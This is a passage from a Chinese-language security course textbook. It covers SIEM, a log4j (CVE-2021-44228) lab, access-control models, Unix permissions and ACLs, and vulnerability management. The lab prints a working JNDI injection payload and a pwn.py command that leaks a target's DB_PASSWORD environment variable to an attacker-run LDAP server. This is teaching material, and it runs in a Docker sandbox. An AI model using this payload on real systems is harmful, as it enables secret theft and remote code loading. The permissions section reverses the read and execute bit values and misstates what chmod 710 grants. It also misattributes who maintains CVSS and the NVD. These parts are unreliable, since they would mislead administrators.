安全信息和事件管理是一种用于实时监控安全信息的系统。通常，SIEM 系统显示事件的仪表板，并具有生成报告或创建工单的功能。它可以是独立设备、内部设备上的软件，甚至是第三方服务。一些流行的 SIEM 示例包括 QRadar、Splunk 和 Azure Sentinel。

## 6.9. 实验：利用 log4j

在本实验中，我们将研究 log4j 漏洞，[CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)。该漏洞利用许多 Java 应用程序（包括 Apache、neo4j、Steam、iCloud 和 Minecraft）使用的常见日志库中的缺陷。任何能够导致消息被记录的攻击者都可以使用 Java 命名和目录接口（JNDI）并导致目标连接到另一服务器（在我们的示例中为 LDAP），并加载远程 Java 类文件。该文件可以包含攻击者希望注入到服务器进程中的任何代码。

本实验使用 Docker Compose 配置来模拟包含攻击者和目标的网络。目标运行由 leonjza 编写的 [known-vulnerable, example application](https://github.com/leonjza/log4jpwn)。此示例应用程序记录请求的 `User-Agent` 标头、请求路径和查询字符串参数，如下所示：


`Listing 13. App.java`


`package com.sensepost.log4jpwn; import org.apache.logging.log4j.Logger; import org.apache.logging.log4j.LogManager; import static spark.Spark.*; public class App { static final Logger logger = LogManager.getLogger(App.class.getName()); public static void main(String[] args) { port(8080); get("/*", (req, res) -> { String ua = req.headers("User-Agent"); String pwn = req.queryParams("pwn"); String pth = req.pathInfo(); System.out.println("logging ua: " + ua); System.out.println("logging pwn: " + pwn); System.out.println("logging pth: " + pth); // trigger logger.error(ua); logger.error(pwn); logger.error(pth); return "ok: ua: " + ua + " " + "pwn: " + pwn + " pth:" + pth; }); } }`

我们的攻击容器中有 [`pwn.py`](https://github.com/leonjza/log4jpwn/blob/master/pwn.py)，同样由 leonjza 编写，它做了两件事：

- 在后台的 8888 端口运行一个伪 LDAP 服务器
- 发送带有指向伪 LDAP 服务器的 JNDI URI 的请求，请求一个 Java 值以泄露
- 解析并打印响应

使用此设置，我们可以展示 log4j 如何被用来从运行中的进程泄露敏感信息。我们将使用它来泄露环境变量 `DB_PASSWORD` 的值。由于在运行中的容器上将秘密存储在环境变量中并不罕见，这应该足以让你看到这个漏洞利用有多么具有毁灭性。

首先下载 [本实验的 zip 归档文件](https://github.com/rxt1077/it230/blob/main/labs/log4j.zip?raw=true)，并在你拥有写入权限且可以在终端应用程序中导航到的目录中解压缩。完成后，你可以在该目录中输入 `docker-compose up` 来启动实验。输出应该类似于你下面看到的内容：

```
PS C:\Users\rxt1077\it230\labs\log4j> docker-compose up
[+] Running 2/0 - Container log4j-target-1 Created 0.0s - Container log4j-attacker-1 Created 0.0s
Attaching to log4j-attacker-1, log4j-target-1
log4j-attacker-1 exited with code 0
log4j-target-1 | WARNING: sun.reflect.Reflection.getCallerClass is not supported. This will impact performance.
log4j-target-1 | [Thread-0] INFO org.eclipse.jetty.util.log - Logging initialized @815ms to org.eclipse.jetty.util.log.Slf4jLog
log4j-target-1 | [Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - == Spark has ignited ...
log4j-target-1 | [Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - >> Listening on 0.0.0.0:8080
log4j-target-1 | [Thread-0] INFO org.eclipse.jetty.server.Server - jetty-9.4.z-SNAPSHOT; built: 2019-04-29T20:42:08.989Z; git: e1bc35120a6617ee3df052294e433f3a25ce7097; jvm 11.0.14+9-post-Debian-1deb11u1
log4j-target-1 | [Thread-0] INFO org.eclipse.jetty.server.session - DefaultSessionIdManager workerName=node0
log4j-target-1 | [Thread-0] INFO org.eclipse.jetty.server.session - No SessionScavenger set, using defaults
log4j-target-1 | [Thread-0] INFO org.eclipse.jetty.server.session - node0 Scavenging every 600000ms
log4j-target-1 | [Thread-0] INFO org.eclipse.jetty.server.AbstractConnector - Started ServerConnector@401fccd3{HTTP/1.1,[http/1.1]}{0.0.0.0:8080}
log4j-target-1 | [Thread-0] INFO org.eclipse.jetty.server.Server - Started @960ms
```

你会注意到 `target` 服务正在运行 `log4jpwn` 示例应用程序，并且其输出直接显示在屏幕上。`attacker` 服务会立即退出，因为它是为交互式使用而设计的，不会在后台运行任何内容。在另一个终端中，再次导航到实验目录并运行 `docker-compose run attacker bash`。这将是你用来攻击目标的 shell：

```
PS C:\Users\rxt1077\it230\labs\log4j> docker-compose run attacker bash
root@3971c61303c8:/#
```

注意一旦进入容器后提示符如何变化。

在攻击 shell 中，使用 `ip` 命令确定容器的 IPv4 地址。我们需要这个地址，因为一旦利用字符串被记录，`attacker` 容器将监听来自 `target` 的连接。

```
root@3971c61303c8:/# ip addr show dev eth0
58: eth0@if59: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
link/ether 02:42:ac:14:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
inet <IP_ADDRESS>/16 brd 172.20.255.255 scope global eth0
valid_lft forever preferred_lft forever
```

你的 IP 不是 `<IP_ADDRESS>`；它是你在其位置找到的任何内容！

一旦你有了 IP 地址，就可以在 `attacker` 容器上运行 `pwn.py` 脚本，你应该能够读取 `target` 容器上的 `DB_PASSWORD` 环境变量。

```
root@3971c61303c8:/# python /pwn.py --listen-host <IP_ADDRESS> --exploit-host <IP_ADDRESS> --target http://target:8080 --leak '${env:DB_PASSWORD}'
i| starting server on <IP_ADDRESS>:8888
i| server started
i| setting payload in User-Agent header
i| sending exploit payload ${jndi:ldap://<IP_ADDRESS>:8888/${env:DB_PASSWORD}} to http://target:8080/
i| new connection from <TARGETS_IP>:44050
v| extracted value: <DB_PASSWORD>
i| request url was: http://target:8080/
i| response status code: 200
```

Docker Compose 会将服务名称解析为 IP 地址，因此目标 URI 不需要查找 IP。`DB_PASSWORD` 的值将出现在这里。

## 6.10. 复习问题

安全解决方案从物理设备迁移到云服务是什么意思？请举一个例子。

在你看来，误报和漏报哪个更具破坏性？为什么？

站点到站点 VPN 的应用有哪些？请举一个办公室可能会使用它的场景示例。

## 7. 访问控制

访问控制旨在提供工具，用于针对特定资源进行 `identification`、`authentication`、`authorization` 和 `accounting`。虽然单个控制可能提供多个部分，但理解每个部分代表什么仍然很重要：

### Identification

识别行为者或用于识别行为者的 `something` 的行为。这可以简单到像驾驶执照，也可以复杂到像只有私钥持有者才能生成的加密签名。示例：送货司机出示员工徽章。

### Authentication

当身份通过特定过程得到确认时，会发生此步骤。这可能是使用私钥的过程，或者可能是另一种生物识别过程，例如读取指纹。无论哪种情况，`authentication` 都是我们验证身份的方法。示例：检查送货司机的徽章。

### Authorization

当行为者被授予访问资源的权限时，即为授权。在日常交谈中，我们可能会认为一旦行为者进展到这一步，`authorization` 就是理所当然的，但实际上，授权依赖于前面的步骤完成，并且实际上可能会失败。系统可能已通过用户名和密码进行身份验证来识别某人是谁，但该用户未设置为有权访问资源。在这种情况下，`authorization` 步骤将失败。继续我们的送货司机示例：允许送货司机领取包裹。

### Accounting

最后，accounting 是记录对资源访问记录的过程。Accounting 可能是已登录用户的日志以及他们各自访问了哪些资源的日志。同样，对于送货司机：司机的访问记录会写在前台的登记簿中。

## 7.1. 一般原则和技术

### 7.1.1. 最小权限原则

最小权限原则指出，行为者只应获得完成其任务所需的资源以及所需的权限。这些资源可以是进程、程序，甚至是用户帐户。这一原则减少了攻击面，并有助于阻止恶意软件的传播，因为单个被攻破的帐户将无法访问所有资源。

最小权限也是合规性的重要概念。例如，法律可能要求审计所有具有互联网访问权限的帐户。通过将具有互联网访问权限的帐户限制为只有需要互联网访问权限来完成其任务的行为者的帐户，可以更容易地实现合规性。

### 7.1.2. 多因素身份验证 (MFA)

多因素身份验证是一种技术，要求行为者提供两个或多个信息片段用于身份识别。身份识别的一些示例包括用户名和密码、令牌代码、物理令牌或生物识别数据。通常建议使用“持有的东西和知道的东西”，例如发送到你手机的短信中的代码（你持有手机）和密码（你知道密码）。

有许多流行的 MFA 产品，其中大多数都基于基于时间的代码生成。[Google Authenticator](https://play.google.com/store/apps/details?id=com.google.android.apps.authenticator2&hl=en_US&gl=US) 和 [Authy](https://authy.com/) 都是手机应用程序，它们从与验证系统同步的加密种子生成代码。RSA ID 在专用硬件设备上生成类似的代码。

### 7.1.3. MAC、DAC、RBAC 和 ABAC

有几种不同的授权模型可供使用。强制访问控制 (MAC) 要求所有对象（文件、目录、设备等）都有一个安全标签，标识谁可以访问它以及如何访问。这是一种特别严格的访问控制形式，需要大量努力来实现和维护，但能实现高级别的安全性。自主访问控制 (DAC) 通过允许对象所有者确定哪些权限组/用户应被授予该对象来简化事情。这提供了很大的灵活性和易于实现的特点，但如果对象所有者被攻破，可能会导致安全性较低的环境。基于角色的访问控制 (RBAC) 在 DAC 的基础上构建，使用系统中的一组核心角色来确定谁对对象具有不同级别的访问权限。RBAC 是一种常见且灵活的模型，可以智能地用于实现 DAC 或 MAC。基于属性的访问控制 (ABAC) 是一种较新的模型，在 RBAC 的基础上构建，并使用更通用的属性，而不仅仅是角色。ABAC 可以根据对象、用户、操作甚至外部上下文的属性来确定谁对对象具有不同级别的访问权限。这些属性可以以任何可以编码为规则的方式一起使用。例如，“从上午 9:00 到下午 5:00，给 Fred 读取此文件夹中非机密文档的权限。”


### 7.2.1. Gates

当入口点数量有限时，更容易管理地点的物理安全。便利性和安全性决定，即使考虑到这些因素，仍然需要多个入口点。安全门是确保只有授权人员获得访问权限的最基本工具。

安全门可以有人值守或无人值守，并设计用于支持车辆或行人通行。一般来说，无人值守的安全门不如有人值守的安全门有效。同样，车辆门对步行交通的效果较差（尤其是无人值守的车辆门），不如为个人设计的门或检查站。彻底的风险评估通常是规划门的位置以及使用哪种类型门的第一步。

### 7.2.2. Biometrics


[生物识别访问识别](https://pixabay.com/illustrations/biometrics-access-identification-4503107/) 根据 [Pixabay License](https://pixabay.com/service/license/) 使用。

生物识别安全设备根据一个或多个身体特征来识别人。这具有很大的便利性优势。一个人可能偶尔会忘记带身份证去上班，但他们永远不会忘记带自己的指尖或虹膜！同样，由于用于识别的项目附着在使用它们的人身上，生物识别特征很难被盗窃或冒充。

生物识别特征通常分为两类：生理特征和行为特征。生理特征可以是面部结构、指纹、掌纹、手部结构、虹膜图案，甚至是某人的 DNA 序列。行为特征包括声音、签名，甚至是按键模式。

### 7.2.3. Key Cards

许多安全措施使用门禁卡来进入房间。门禁卡使用与信用卡相同的外形尺寸，使员工可以轻松地将其放在钱包或证件夹中。门禁卡可能使用磁条或芯片（类似于信用卡）、射频识别（`RFID`）或近场通信（`NFC`）。

基本的被动门禁卡经常受到 skimming 和 cloning 攻击。一旦攻击者可以访问卡上存储的唯一编号，他们就可以重新创建卡片。监控使用门禁卡的区域很重要，以确保攻击者没有安装额外的硬件来读取这些编号。同样重要的是要教育系统用户，不要与他人共享他们的门禁卡，并在卡片丢失时报告。

### 7.2.4. Security Guards

任何组织中最通用的资产是人力资源，安全警卫也是如此。安全警卫可以用于核实身份证、执行规则、阻止强行进入，并根据需要采取行动。鉴于人力资源的高昂成本，安全警卫应部署在风险高的关键位置。即使他们的工作描述可能与您正在培训的其他员工不同，他们也可以从员工意识培训中获益良多。

### 7.2.5. Cameras


[CCTV camera and iFacility IP Audio speaker on a pole](https://commons.wikimedia.org/wiki/File:CCTV_camera_and_iFacility_IP_Audio_speaker_on_a_pole.jpg) by RickySpanish used under [CC-BY-SA 4.0](https://creativecommons.org/licenses/by-sa/4.0/deed.en)

摄像头为操作员提供一个地点的 `"always on"` 视图。意识到所有活动都在被记录，可以劝阻攻击者瞄准更容易的目标或不再继续他们的恶意行为。即使攻击者坚持，摄像头录像也可以提供攻击的证据，以及以后可用于追踪攻击者或做出更好安全决策的证据。

`"eye in the sky"` 似乎有让诚实的人保持诚实的效果，但对于那些有意违反规则的人来说，往往只是被视为一个障碍。尽管如此，摄像头确实有几个技术优势。它们可以在无光/低光条件下工作，可以远程控制和监控，可以远程存储录像，可以跟踪运动，并可以在运动事件上激活/发出警报。摄像头是大多数安全计划的组成部分。

### 7.2.6. Mantraps


Mantrap 是一种物理访问控制，一次只允许一个人通过门进入。Mantrap 也被称为气闸、sally ports 或访问控制前厅，用于防止 tailgating，即跟随另一个人通过安全门。这些设备通常与门禁卡一起使用，以确保只有那些应该有权进入建筑物的人才能进入。

## 7.3. Network Access

### 7.3.1. Active Directory

Active Directory (`AD`) 是通常在 Windows 网络中用于控制和跟踪资源的目录服务。`AD` 是一种微软技术，可实现集中式网络管理。它已被证明非常可扩展，并通常部署在企业环境中（公司、大学、学校等）。

Active Directory 依赖于轻量级目录访问协议（`LDAP`）进行通信。虽然 `AD` 可能是 `LDAP` 的最大部署用户，但各种操作系统的其他实现也存在，包括 Apple OpenDirectory、RH Directory Server 和 OpenLDAP。`LDAP` 经常由内部应用程序和进程使用。

`AD` 环境的基石是域控制器（`DC`）。`DCs` 存储有关用户、组、计算机、策略等的目录信息。它们响应它们所支持的域（网络）的身份验证请求。标准网络将有多个 `DCs`，并设置了故障转移，以防出现问题。

对于许多环境，`AD` 是用于身份验证、授权和计费的机制。随着许多服务迁移到 Web，从任何地方访问 `AD` 的需求变得越来越重要。这催生了 Azure Active Directory 的增长，这是一种基于云的 Active Directory 版本。我们越来越多地看到利用基于云的资源而不是本地 `DCs` 的部署。

### 7.3.2. Privileged Identity Management (`PIM`)

Privileged Identity Management (`PIM`) 是一种管理对位置、命令、审计报告和服务等资源访问的方法。`PIM` 旨在提供更细粒度的访问控制。通过记录更多关于访问的信息，它允许对可疑行为和异常进行更好的报告。`PIM` 用于 Windows 操作系统和许多 Microsoft Azure 服务。

### 7.3.3. Privileged Access Management (`PAM`)

Privileged Access Management (`PAM`) 是一个用于保护身份的框架，具有高级功能，例如 `\*NIX` 系统中的超级用户。`PAM` 在 Linux 世界中很常见，用于控制管理员如何登录。`PAM` 支持比旧的 `"become root and perform admin tasks"` 模式更多的功能。使用 `PAM`，可以设置密码过期，可以实施更好的审计，并且特权升级可以是临时的。

### 7.3.4. Identity and Access Management (`IAM`)


# 身份和访问管理

身份和访问管理是一个用于管理数字身份的框架。IAM 管理用户数据库，记录用户登录和注销时间，管理组或角色的创建，并允许分配和删除访问权限。许多不同的组织提供 IAM 框架，其中最著名的可能是亚马逊网络服务（AWS），它使用该框架来控制对其提供的基础设施即服务（IaaS）技术的访问。

IAM 通常使用 PIM 和 PAM 来实现这些目标。一个实现良好且全面的 IAM 框架可以跨操作系统工作，并处理多种不同类型的资源。

## 7.3.5. Unix 文件权限

从诞生之初，Unix 就被设计为多用户环境，因此对文件权限给予了高度重视。Unix 系统中的每个文件都有一个所有者和一个组。每个文件还具有针对所有者、组和所有用户的权限。权限使用八进制数字设置，其中每个位代表读取（位 0：1）、写入（位 1：2）或执行（位 2：4）权限。


例如，如果你想要读取和执行权限，则数字为 5（1 + 4）。读取和写入权限则为 3（1 + 2）。

权限使用 `chmod` 命令指定，第一个八进制数字是所有者的权限，第二个是组的权限，第三个是所有用户的权限。因此，要将文件更改为所有者具有读取、写入和执行权限，组具有读取权限，其他人没有权限，命令将是 `chmod 710 <filename>`，其中 `<filename>` 是你的文件名。

文件的所有者和组可以使用 `chown` 命令设置：`chown <owner>.<group> <filename>`。如果未指定 `<group>`，则仅更改所有者。

## 7.3.6. ACLs

访问控制列表（ACL）用于基于特征允许或拒绝访问。它们通常基于简单的特征，要么拒绝不在列表中的任何人访问，即 `allowlist`，要么拒绝在列表中的任何人访问，即 `denylist`。

ACL 通常用于网络，并通常基于 IP 地址进行过滤。你可以在大多数防火墙产品以及 Amazon Web Services (AWS) 虚拟私有云（VPC）中找到 ACL 的示例。

文件系统 ACL 将相同的概念应用于文件。Linux 使用文件系统 ACL 以比 Unix 文件权限 更细致的方式允许或拒绝访问。

## 7.3.7. SSH 密钥

安全外壳服务器（SSH）支持使用非对称加密密钥进行身份验证。大多数服务器支持 RSA、DSA 和 ECDSA 密钥，其中 RSA 最为常见。SSH 服务器维护一个授权密钥列表，通常位于 `~/.ssh/authorized_keys`，可用于连接到服务器。当客户端连接时，SSH 服务器会发出一个挑战，要求客户端使用其私钥对一段随机数据进行签名。如果私钥与 `authorized_keys` 文件中存储的公钥匹配，则用户将登录。

SSH 密钥的优势在于更易于使用，因为用户不需要记住并输入密码。因此，在通过 SSH 运行协议（例如 [git](https://git-scm.com/)）时，密钥常用于身份验证。密钥还具有可能挫败中间人（MitM）攻击的优势。虽然恶意行为者冒充 SSH 服务器可以轻易窃取密码，但通过密钥进行身份验证只会传输一段签名的随机数据。这段数据对中间人来说毫无用处。

## 7.3.8. 会话和 Cookie

HTTP 会话也可用于控制对资源的访问。这在 Web 应用程序中很常见。成功登录后，用户会获得一个带有加密防篡改会话 ID 的 Cookie。用户对该网站发出的每个请求都会包含该 Cookie。最终会话会超时，用户的请求会因会话 ID 不再有效而被拒绝。通常，网站会将用户从受保护的资源重定向到登录页面，以便他们可以重新登录。

网站 Cookie 也可用于存储用户偏好或应用程序的当前状态。Cookie 可以列出用户购物车中当前的商品，或指定用户是否偏好深色模式。Cookie 一直是审查的目标，因为它们可能被用于攻击。如果 Cookie 可以被外部应用程序或 Web 浏览器中的单独恶意标签页访问，则可以用于获取用户会话的访问权限。

## 7.3.9. 单点登录（SSO）

鉴于 Web 应用程序的普遍性，为用户维护单独的用户名和密码可能很困难。最近的趋势是支持单点登录，其中一个身份提供者用于确认用户就是他们声称的那个人。有一些协议使这成为可能，包括 SAML 和 OAuth。

SAML 代表安全断言标记语言，是一种基于 XML 的单点登录解决方案。SAML 工作流围绕 SAML 身份提供者或 IDP 展开。以下步骤用于通过 SAML 授予对资源的访问权限：

1. 用户访问一个服务

2. 用户被重定向到带有 SAML 请求的 SAML IDP

3. 用户登录

4. 凭据被验证

5. SAML IDP 将凭据发送到服务

OpenID 是另一种协议，允许用户以类似于 SAML 的方式使用第三方身份提供者进行身份验证。主要区别之一是 OpenID 设计为去中心化，允许用户从多个 IDP 中选择。2014 年 2 月，OpenID 引入了 OpenID Connect (OIDC)，这是一种更现代的系统，允许 IDP 通过 REST API 提供有关用户的信息。这一举动很大程度上是对 OAuth 流行程度的回应。

OAuth 是一种允许网站在用户许可下访问用户个人资料部分的方法。OAuth 并非 `技术上` 一个完整的身份验证协议，但它通常作为其中一部分使用。以下图表突出了 OpenID 身份验证和 OAuth 流之间的区别：


[OpenID vs. Pseudo-Authentication using OAuth](https://commons.wikimedia.org/wiki/File:OpenIDvs.Pseudo-AuthenticationusingOAuth.svg) by [Perhelion](https://commons.wikimedia.org/wiki/File:OpenIDvs.Pseudo-AuthenticationusingOAuth.svg) used under [CC0 1.0](https://commons.wikimedia.org/wiki/File:OpenIDvs.Pseudo-AuthenticationusingOAuth.svg)

## 7.3.10. Kerberos

Kerberos 是一种用于客户端-服务器连接的身份验证协议。它由 MIT 在 1980 年代开发，主要部署在 Windows 网络上，但许多 Linux 发行版也支持使用它进行身份验证。Kerberos 大量使用基于时间的票据，因此所有参与的客户端必须时钟同步。当正常工作时，Kerberos 允许在不受信任的网络上进行完整的身份验证。

Kerberos 使用许多不同的服务和概念来履行其职责。其中一些服务可能运行在同一台机器上，并且几乎总是缩写：

身份验证服务器（AS）

: 与客户端执行身份验证步骤

票据授予服务（TGS）

: 创建和签署票据的服务

票据授予票据（TGT）

: 带时间戳并加密（使用 TGS 密钥）的票据，授予为服务创建票据和会话的能力

密钥分发中心（KDC）

: 运行 TGS 并授予 TGT

服务主体名称（SPN）

: 使用 Kerberos 身份验证的服务的名称


要登录，客户端会联系 AS，AS 从运行在 KDC 上的 TGS 获取 TGT 并将其提供给客户端。客户端获取其想要使用的服务的 SPN，并将其连同 TGT 一起发送到 TGS。假设客户端有权访问该服务，TGS 会向客户端颁发票据和会话。然后使用该票据连接到服务。

### 7.3.11. Tokenization

令牌化可作为访问控制方案的一部分，用于保护敏感信息。如果泄露，价值极高的信息会被替换为涉及交易的各方知晓的随机令牌。在典型场景中，一旦令牌建立，仅在不可信网络上发送令牌。

想象一下，你不希望信用卡号暴露给商家。一种解决方案是使用支付服务，该服务为每笔交易向你发放一个新的信用卡号。该信用卡号仅对单笔交易有效，并会计入你的常规信用卡（支付服务可以访问该卡）。在这种情况下，令牌是一次性信用卡号，敏感信息是你的实际信用卡号。ApplePay 和 GoogleWallet 等支付服务正是如此。

## 7.4. Lab: Linux File Permissions

在本实验中，我们将探索 UNIX 风格的文件权限，确定它们能做什么以及为什么存在局限性。最后，我们将了解 Linux ACL 如何在分配权限方面提供更多灵活性。

我们将在一个原生 Ubuntu 容器中工作，手动安装软件并添加用户。让我们启动容器，安装所需的软件包，并添加一些用户：

```
C:\Users\rxt1077\it230\docs>docker run -it ubuntu bash
root@11ce9e5ee80e:/# apt-get update
<snip>
root@11ce9e5ee80e:/# apt-get install acl
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following NEW packages will be installed:
  acl
0 upgraded, 1 newly installed, 0 to remove and 4 not upgraded.
Need to get 37.8 kB of archives.
After this operation, 197 kB of additional disk space will be used.
Get:1 http://archive.ubuntu.com/ubuntu focal/main amd64 acl amd64 2.2.53-6 [37.8 kB]
Fetched 37.8 kB in 0s (94.1 kB/s)
debconf: delaying package configuration, since apt-utils is not installed
Selecting previously unselected package acl.
(Reading database ... 4127 files and directories currently installed.)
Preparing to unpack .../acl_2.2.53-6_amd64.deb ...
Unpacking acl (2.2.53-6) ...
Setting up acl (2.2.53-6) ...
root@11ce9e5ee80e:/# useradd alice
root@11ce9e5ee80e:/# useradd bob
root@11ce9e5ee80e:/# useradd carol
root@11ce9e5ee80e:/# useradd dave
```

传统 UNIX 文件权限支持文件的用户和组所有权。可以为用户、组或其他用户设置文件的读、写和执行权限。可以使用 `ls -l` 命令查看文件的权限。让我们为 Alice、Bob 和 Carol 创建主目录，并查看默认权限：

```
root@11ce9e5ee80e:/# cd home
root@11ce9e5ee80e:/home# mkdir alice bob carol
root@11ce9e5ee80e:/home# ls -l
total 12
drwxr-xr-x 2 root root 4096 Oct 28 01:28 alice
drwxr-xr-x 2 root root 4096 Oct 28 01:28 bob
drwxr-xr-x 2 root root 4096 Oct 28 01:28 carol
```

文本 `drwxr-xr-x` 告诉我们这些文件是目录，所有者具有读/写/执行权限，组具有读/执行权限，其他用户具有读/执行权限。需要注意的是，查看目录内容需要执行权限。

文件所有者和组使用 `chown` 命令设置，格式为 `chown <user>.<group> <filename>`。让我们尝试使用此命令将 alice、bob 和 carol 的主目录设为私有：

```
root@11ce9e5ee80e:/home# chown alice.alice alice
root@11ce9e5ee80e:/home# chown bob.bob bob
root@11ce9e5ee80e:/home# chown carol.carol carol
root@11ce9e5ee80e:/home# ls -l
total 12
drwxr-xr-x 2 alice alice 4096 Oct 28 01:28 alice
drwxr-xr-x 2 bob   bob   4096 Oct 28 01:28 bob
drwxr-xr-x 2 carol carol 4096 Oct 28 01:28 carol
```

当使用 `useradd` 命令将用户添加到 UNIX 系统时，会创建一个同名组。这允许我们将一个组传递给 `chown`，只有该用户可以访问。虽然这是一个好的开始，但其他用户仍然有能力读取和执行这些目录，这意味着 `任何人` 都可以查看内容。为了证明这一点，让我们假设 dave 的角色，并尝试对每个目录执行 `ls`：

```
root@11ce9e5ee80e:/home# su dave ①
$ ls alice
$ ls bob
$ ls carol
$ exit
```

1. `①` `su` 允许我们假设任何人的角色，通常用于假设 `超级用户` 的角色

`ls` 命令成功了，即使没有文件可查看。如果我们无法查看内容，将会收到权限被拒绝错误。`chmod` 命令用于修改用户 (`u`)、组 (`g`)、其他用户 (`o`) 或所有用户 (`a`) 的文件权限。`chmod` 可以用 `-` 移除权限，用 `+` 添加权限，或用 `=` 设置权限（移除其他用户）。让我们使用 `chmod` 将这些主目录实际设为私有：

```
root@11ce9e5ee80e:/home# chmod u=rwx,g=,o= alice
root@11ce9e5ee80e:/home# chmod u=rwx,g=,o= bob
root@11ce9e5ee80e:/home# chmod u=rwx,g=,o= carol
root@11ce9e5ee80e:/home# ls -l
total 12
drwx------ 2 alice alice 4096 Oct 28 01:28 alice
drwx------ 2 bob   bob   4096 Oct 28 01:28 bob
drwx------ 2 carol carol 4096 Oct 28 01:28 carol
```

情况好多了，但让我们测试一下，看看 Dave 是否可以查看任何目录：

```
root@11ce9e5ee80e:/home# su dave
$ ls alice
ls: cannot open directory 'alice': Permission denied
$ ls bob
ls: cannot open directory 'bob': Permission denied
$ ls carol
ls: cannot open directory 'carol': Permission denied
$ exit
```

最后，让我们确保 Alice 可以查看她主目录的内容：

```
root@11ce9e5ee80e:/home# su alice
$ ls alice
$ exit
```

看起来不错！

不幸的是，传统 UNIX 文件权限通常无法提供现代系统所需的细粒度。例如，假设我们希望 Web 服务器能够查看 Alice、Bob 和 Carol 主目录的内容。通常这样做是为了允许用户在主目录中放置 `public_html` 目录并设置个人 Web 空间。我们可以通过使他们的主目录对其他用户可见来实现这一点，但这样我们又回到了最初的问题。我们也可以通过将他们主目录的组所有权更改为 Web 服务器所属的组来实现这一点，但这样会将主目录开放给该组中的任何其他用户或服务。

解决这个问题的方法是使用 Linux ACL，它允许你精细调整权限。使用 `setfacl` 和 `getfacl` 两个命令来调整 Linux ACL。例如，让我们添加一个 http 用户，使用 `setfacl` 命令明确授予 http 用户对所有三个目录的读取和执行权限，列出新权限，并列出新 ACL：

```
root@11ce9e5ee80e:/home# useradd http
root@11ce9e5ee80e:/home# setfacl -m u:http:rx alice bob carol
root@11ce9e5ee80e:/home# ls -l
total 12
drwxr-x---+ 2 alice alice 4096 Oct 28 01:28 alice ①
drwxr-x---+ 2 bob   bob   4096 Oct 28 01:28 bob
drwxr-x---+ 2 carol carol 4096 Oct 28 01:28 carol
root@11ce9e5ee80e:/home# getfacl alice bob carol
# file: alice
# owner: alice
# group: alice
user::rwx
user:http:r-x
group::---
mask::r-x
other::---

# file: bob
# owner: bob
# group: bob
user::rwx
user:http:r-x
group::---
mask::r-x
other::---

# file: carol
# owner: carol
# group: carol
user::rwx
user:http:r-x
group::---
mask::r-x
other::---
```

1. `①` 注意表示有额外权限的 `+` 符号

完成后，可以键入 exit 退出 bash 并停止容器。

## 7.5. Review Questions


# 8. 漏洞管理与合规

保护信息基础设施不仅是良好的实践，也是法律要求。为了更好地了解相关法律法规以及如何应对漏洞，我们需要确保理解以下关键术语：

**Vulnerability**：威胁可利用的弱点或缺乏对策

**Vulnerability Management**：识别、分类和修复漏洞的过程

**Asset**：我们试图保护的资产

**Threat**：被利用的漏洞

**Risk**：漏洞利用发生后的影响

**Control/Countermeasure**：为修复漏洞而采取的行动或配置

用类比来讨论这些概念可能会有所帮助。漏洞就像一扇未锁的门。漏洞管理就是注意到这扇门并评估风险。这可能涉及查看该地区的犯罪率、确定房屋内物品的价值、考虑锁门的难易程度，以及决定是否锁门和/或购买报警系统。资产就像房子里的东西，例如笔记本电脑。风险是指被盗的影响，例如丢失笔记本电脑可能造成 800 美元的损失。最后，控制/对策就是锁门、安装摄像头系统和/或报警系统。

## 8.1. 漏洞管理

管理漏洞的第一步是收集信息。安全团队需要收集：

* 硬件信息，包括使用的操作系统和设备类型（笔记本电脑、服务器、IoT 等）
* 网络信息，包括 IP 地址、MAC 地址以及网络段的详细信息
* 域信息，包括域名和工作组
* 所使用应用程序及其审批状态的信息
* 设备上当前运行的安全工具的信息
* 设备的所有者信息

这些信息可以从终端管理软件中收集，其中很大一部分通常也是如此。此步骤属于资产清单管理的一部分，即维护资产信息集中数据库的过程。使用终端代理、网络监控（通常通过简单网络管理协议 SNMP）和终端脚本，资产清单管理系统可以跟踪用户上次登录日期、使用的操作系统、已安装的应用程序及其安装日期，以及设备所在的网络段。良好的资产清单管理是良好漏洞管理的前提。

扫描也可用于发现漏洞。漏洞扫描可以在内部和外部运行，使用特权或非特权账户。扫描通常按计划在网络段上运行，时间选择在对业务影响最小的时段。这些扫描会生成报告或使用仪表板，以便在发现任何漏洞时通知安全团队。

脚本或第三方程序也可用于监控特定终端。这些脚本可能执行 ICMP、SNMP、TCP/UDP 或 HTTP 检查。它们通常针对被监控的设备而定制。例如，如果我们有一台过去曾出现目录遍历漏洞的内部 Web 服务器，我们可能会编写一个脚本来对易受攻击的 URL 发送 GET 请求，并在请求成功时返回警报。这种定制监控是漏洞管理的关键方面。

### 8.1.1. CVEs


[CVE Logo](https://www.cve.org/) 根据合理使用原则使用

漏洞由 MITRE 公司运营的美国国家漏洞数据库进行分类/发布。该数据库称为通用漏洞披露（Common Vulnerabilities and Exposures，简称 CVE）。通常，这些漏洞由供应商或研究人员报告，由 MITRE 审核，最后分配一个编号。一个典型的 CVE 可能如下所示：`CVE-2021-26740`。这显示了漏洞披露的年份以及该年份中该漏洞的唯一编号。

安全扫描仪通常会在易受攻击的系统上报告 CVE。安全团队随后可以查询 CVE，找到可以采取哪些措施来缓解漏洞利用。需要注意的是，MITRE 和披露供应商也可能选择对 CVE 实施 [*禁运*](https://lwn.net/Articles/762512/)，即在补丁可用之前推迟其发布。这意味着并非 *所有* 披露的漏洞都会立即在 CVE 数据库中提供。

### 8.1.2. CVSS


通用漏洞评分系统（Common Vulnerability Scoring System）是用于评估漏洞利用和漏洞严重程度的系统。创建 CVE 后，也会生成 CVSS，评估因素包括漏洞利用的普遍性、易用性以及造成危害的能力。CVSS 使用 0 到 10 的评分标准，0 表示最不严重，10 表示最严重：

* 0.0: 无
* 0.1-3.9: 低
* 4.0-6.9: 中
* 7.0-8.9: 高
* 9.0-10.0: 严重

CVSS 由国家基础设施咨询委员会（NIAC）研究和维护。CVSS 分数是我们将在下一阶段讨论的评估中使用的非常重要的工具。

### 8.1.3. 评估

在收集信息并了解威胁后，就可以进行评估了。

安全团队需要考虑资产的成本。如果该设备停机，对公司会造成多大损害？如果需要更换，成本是多少？

还需要评估数据的价值。该数据是否敏感？它对公司的运营是否至关重要？如果丢失这些数据会发生什么？

